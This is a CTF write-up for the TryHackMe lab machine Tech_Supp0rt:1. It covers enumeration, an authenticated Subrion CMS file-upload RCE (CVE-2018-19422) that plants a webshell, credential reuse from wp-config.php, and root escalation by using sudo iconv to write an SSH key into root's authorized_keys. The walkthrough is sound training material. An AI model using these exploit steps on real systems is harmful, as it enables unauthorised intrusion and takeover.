



Welcome to another CTF-writeup !! Tech_support:1 by vikaran. What we can learn from this machine. 
* nmap scan , smbmap etc. (enumeration skills)
* subrion cms 4.2.1 RCE
* iconv sudo permission to overwritten files and look for files

Let's start with enumeration. First with nmap to see what port we have in the box.
## Nmap scan
```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ nmap -sC -sV 10.10.168.200        
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 21:29 PDT
Nmap scan report for 10.10.168.200
Host is up (0.37s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-04-16T04:29:37
|_  start_date: N/A
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-04-16T09:59:38+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 42.93 seconds
```
Nmap scan shows we got a webpage on port 80 and 445 smb also open. Let's see the webpage.



## Feroxbuster or Gobuster
I ran feroxbuster(It is a new web dir search tool written with R) to see is there any directories. I found 2 useful web directories.  

* /test/ - hint
  
* /icon/ - 403 forbidden
* /wordpress/ -404 not found


I try to run wpscan and found a account called **support**.

## Playing with Smbmap and Smbclient

Let's head over to port 445 smb. When we map the smb port we can see read only disk called **websvr**. 
```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ smbmap -H 10.10.168.200
[+] Guest session   	IP: 10.10.168.200:445	Name: 10.10.168.200                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	NO ACCESS	Printer Drivers
	websvr                                            	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service (TechSupport server (Samba, Ubuntu))
```
Let's try to login to websvr without password.

```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ smbclient \\\\10.10.168.200\\websvr  
Enter WORKGROUP\defalt's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat May 29 00:17:38 2021
  ..                                  D        0  Sat May 29 00:03:47 2021
  enter.txt                           N      273  Sat May 29 00:17:38 2021

		8460484 blocks of size 1024. 5698356 blocks available
smb: \> get enter.txt
getting file \enter.txt of size 273 as enter.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
smb: \> exit
```
When we log into the websvr we can see one file called **enter.txt** Let's read the file maybe it could contain some password.

```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ cat enter.txt
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24****** [cooked with magical formula]
Wordpress creds
|->
```
My guess is correct ! we found subrion creds but It encoded with magic. Let's decode this with cyberchef.


## Subrion Panel

After I read about subrion cms through github (https://github.com/intelliants/subrion) I setup a gobuster scan to scan **/subrion** directory. It found a directory called **/panel** just like our note says. Let's log with our creds.


This subrion CMS version also vurnerable to RSE. Before we go looking into exploit I look inside in the panel. We have a upload tab to upload our reverse shell. 


We can upload php file to get access to system. But I tried different thing instead of uploading reverse shell I tried this script to do the dirty work.

Script : https://github.com/h3v0x/CVE-2018-19422-SubrionCMS-RCE

But if you wanna upload a file and do it yourself makesure your php file should be **.phar**.

```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1/CVE-2018-19422-SubrionCMS-RCE]
└─$ python3 SubrionRCE.py -u http://10.10.168.200/subrion/panel/ -l admin -p Scam2021
[+] SubrionCMS 4.2.1 - File Upload Bypass to RCE - CVE-2018-19422 

[+] Trying to connect to: http://10.10.168.200/subrion/panel/
[+] Success!
[+] Got CSRF token: sRY9GS572zbGcZo8uzRpF49eoXhYbDTO9LZfOdYx
[+] Trying to log in...
[+] Login Successful!

[+] Generating random name for Webshell...
[+] Generated webshell name: eerqehzwsunpqxn

[+] Trying to Upload Webshell..
[+] Upload Success... Webshell path: http://10.10.168.200/subrion/panel/uploads/eerqehzwsunpqxn.phar 

$ whoami
www-data

$ ls -la /home
total 12
drwxr-xr-x  3 root     root     4096 May 28  2021 .
drwxr-xr-x 23 root     root     4096 May 28  2021 ..
drwxr-xr-x  4 scamsite scamsite 4096 May 29  2021 scamsite
```
We got into www-data and we got a user called scamsite. First see through wordpress. Because earlier I saw web directory called wordpress.

## Looking for wp-config file
```bash
$ ls -la /var/www/html/wordpress/
total 220
drwxr-xr-x  5 www-data www-data  4096 May 29  2021 .
drwxr-xr-x  5 root     root      4096 May 29  2021 ..
-rw-r--r--  1 www-data www-data   543 May 29  2021 .htaccess
-rwxr-xr-x  1 www-data www-data   405 Feb  6  2020 index.php
-rwxr-xr-x  1 www-data www-data 19915 Jan  1  2021 license.txt
-rwxr-xr-x  1 www-data www-data  7345 Dec 30  2020 readme.html
-rwxr-xr-x  1 www-data www-data  7165 Jan 21  2021 wp-activate.php
drwxr-xr-x  9 www-data www-data  4096 May 13  2021 wp-admin
-rwxr-xr-x  1 www-data www-data   351 Feb  6  2020 wp-blog-header.php
-rwxr-xr-x  1 www-data www-data  2328 Feb 17  2021 wp-comments-post.php
-rwxr-xr-x  1 www-data www-data  2992 May 29  2021 wp-config.php
drwxr-xr-x  6 www-data www-data  4096 May 29  2021 wp-content
-rwxr-xr-x  1 www-data www-data  3939 Jul 31  2020 wp-cron.php
```
We found a wp-config file. Let's see what we got here.
```bash
$ cat /var/www/html/wordpress/wp-config.php
<?php
/**
 * The base configuration for WordPress
 *
 * The wp-config.php creation script uses this file during the
 * installation. You don't have to use the web site, you can
 * copy this file to "wp-config.php" and fill in the values.
 *
 * This file contains the following configurations:
 *
 * * MySQL settings
 * * Secret keys
 * * Database table prefix
 * * ABSPATH
 *
 * @link https://wordpress.org/support/article/editing-wp-config-php/
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'ImASca***********!123!' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
``` 
We got a password let's try to log into **scamsite** user.

## ssh session to scamsite user

```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1/CVE-2018-19422-SubrionCMS-RCE]
└─$ ssh scamsite@10.10.168.200
The authenticity of host '10.10.168.200 (10.10.168.200)' can't be established.
ED25519 key fingerprint is SHA256:J/HR9GKX4ReRvs4I9fnMwmJrOTL5B3skZ4owxwxWoyM.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.168.200' (ED25519) to the list of known hosts.
scamsite@10.10.168.200's password: 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Fri May 28 23:30:20 2021
scamsite@TechSupport:~$ 
```
We get into our user account. Let's see what we got on this.

## sudo privileges
Before ran emumerting scripts like linpeas. Let's see about sudo privileges given into the user.

```bash
scamsite@TechSupport:~$ sudo -l
Matching Defaults entries for scamsite on TechSupport:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
I search about this on gtfobins(https://gtfobins.github.io/gtfobins/iconv/).



I think we got two methods to get a root flag.

## Method 1 - Login into root account
We can overwritten or put a new ssh key to the system. First we need to genarate a ssh key on our machine by typing **ssh-keygen** command and do the following commands. 
```bash
LFILE=/root/.ssh/authorized_keys

echo "your id_rsa.pub" | sudo iconv -f 8859_1 -t 8859_1 -o "$LFILE"
```
Then we can log into the root account by using our private key.
```bash
┌──(defalt@kali)-[~/Documents/tryhackme/Tech_Supp0rt:1]
└─$ ssh root@10.10.252.87 -i id_rsa 
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


120 packages can be updated.
88 updates are security updates.


Last login: Sun Nov 21 11:17:57 2021
root@TechSupport:~# ls
root.txt
root@TechSupport:~# cat root.txt
851b8233a8c09400ec30651bd152**********  -
root@TechSupport:~# 
```

## Method 2

We don't need to login to see root flag by using this command.

```bash
sudo -u root iconv  -f 8859_1 -t 8859_1 "/root/root.txt"
```
My github write-up : https://github.com/Defalt-cloud/CTF-Writeups/blob/main/TryHackMe/Tech_Supp0rt:1/Tech_Supp0rt.md

Thx for reading !! Have a nice day